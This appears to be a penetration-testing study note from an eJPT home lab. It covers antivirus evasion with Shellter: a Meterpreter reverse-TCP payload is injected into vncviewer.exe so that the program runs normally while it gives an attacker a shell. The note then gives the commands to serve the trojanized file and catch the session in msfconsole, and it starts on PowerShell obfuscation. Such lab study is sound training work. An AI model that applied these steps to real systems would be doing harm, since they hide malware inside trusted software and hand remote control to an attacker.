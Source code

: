 * Execute an `exe` file on Linux

```bash
sudo shellter
```

* Inject the shellcode into`/usr/share/windows-binaries/vncviewer.exe` file after copying it to a folder

```bash
mkdir AVBypass
cd AVBypass
cp /usr/share/windows-binaries/vncviewer.exe .
```

* In the `SHELLTER` windows, choose `A` for automatic
* PE Target: `/home/kali/certs/ejpt/AVBypass/vncviewer.exe`
* Stealth Mode: `Y` = `vncviewer` will function as normal and the shellcode will be executed in the background
* Payload: `L` - `1`
* LHOST: Attacker's IP - `192.168.31.128`
* LPORT: `1234`
* Now the `/home/kali/certs/ejpt/AVBypass/vncviewer.exe` **file has been replaced by the Shellter generated malicious executable**
* Copy the `vncviewer.exe` file to the target machine

```bash
# Attacker VM
cd /home/kali/certs/ejpt/AVBypass/
sudo python -m http.server 80

# In another terminal
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.31.128
set LPORT 1234
run
```

* Run the `vncviewer.exe` file and chheck the `msfconsole` Meterpreter session

### PowerShell Code Obfuscation

[**`Invoke-Obfuscation`**](https://github.com/danielbohannon/Invoke-Obfuscation) - _a PowerShell v2.0+ compatible PowerShell command and script obfuscator._

> 🔬 Home lab with Kali Linux and Win7 VMs

* Kali Linux install PowerShell

```bash
cd /opt
sudo git clone https://github.com/danielbohannon/Invoke-Obfuscation.git
sudo apt update && sudo apt install -y powershell
```

